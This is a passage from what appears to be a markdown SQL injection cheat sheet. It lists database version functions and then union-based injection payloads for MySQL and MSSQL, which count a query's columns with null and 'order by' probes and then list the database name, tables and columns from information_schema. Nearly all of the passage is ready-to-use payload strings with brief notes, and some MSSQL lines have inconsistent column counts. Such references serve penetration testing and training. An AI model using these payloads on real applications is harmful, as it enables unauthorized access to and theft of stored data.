 <b>*<span style="color:#631F9C">&#62;</span> SQLITE*</b>
> <span style="color:#3E386D">→</span> sqlite_version()<br>

<b>*<span style="color:#631F9C">&#62;</span> PgSQL*</b>
> <span style="color:#3E386D">→</span> version()<br>

---
## Union Based SQL Injection

<b>*<span style="color:#631F9C">&#62;</span> MySQL*</b>
> <span style="color:#3E386D">→</span> &#39; union select null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null, null<br>
(If there is no error when sending 4 nulls as above, it means that 4 columns are being used.)<br>

> <span style="color:#3E386D">→</span> &#39; order by 1<br>
> <span style="color:#3E386D">→</span> &#39; order by 2<br>
> <span style="color:#3E386D">→</span> &#39; order by 3<br>
> <span style="color:#3E386D">→</span> &#39; order by 4<br>
> <span style="color:#3E386D">→</span> &#39; order by N<br>
(If an error occurs using `order by`, the number of columns in use is N-1.)<br>

> <span style="color:#3E386D">→</span> &#39; union select database(), null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select group_concat(table_name), null, null, null from information_schema.tables<br>
> <span style="color:#3E386D">→</span> &#39; union select group_concat(column_name), null, null, null from information_schema.columns<br>
> <span style="color:#3E386D">→</span> &#39; union select group_concat(&#60;column_name&#62;), null, null, null from &#60;table_name&#62;<br>

<b>*<span style="color:#631F9C">&#62;</span> MsSQL*</b>

> <span style="color:#3E386D">→</span> &#39; union select null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select null, null, null, null<br>
(If there is no error when sending 4 nulls as above, it means that 4 columns are being used.)<br>

> <span style="color:#3E386D">→</span> &#39; order by 1<br>
> <span style="color:#3E386D">→</span> &#39; order by 2<br>
> <span style="color:#3E386D">→</span> &#39; order by 3<br>
> <span style="color:#3E386D">→</span> &#39; order by 4<br>
> <span style="color:#3E386D">→</span> &#39; order by N<br>
(If an error occurs using `order by`, the number of columns in use is N-1.)<br>

> <span style="color:#3E386D">→</span> &#39; union select db_name(), null, null, null<br>
> <span style="color:#3E386D">→</span> &#39; union select table_name, null, null, null from  (select top 1 table_name from information_schema.tables order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select table_name, null from  (select top 2 table_name from information_schema.tables order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select table_name, null from  (select top 3 table_name from information_schema.tables order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select table_name, null from  (select top 4 table_name from information_schema.tables order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select column_name, null from (select top 1 column_name from information_schema.columns where table_name=&#39;&#60;table_name&#62;&#39; order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select column_name, null, null, null from (select top 2 column_name from information_schema.columns where table_name=&#39;&#60;table_name&#62;&#39; order by 1) as shit order by 1 desc<br>
> <span style="color:#3E386D">→</span> &#39; union select column_name, null, null, null from (select top 3 column_name from information_schema.columns where table_name=&#39;&#60;table_name&#62;&#39; order by 1) as shit order by 1 desc<br>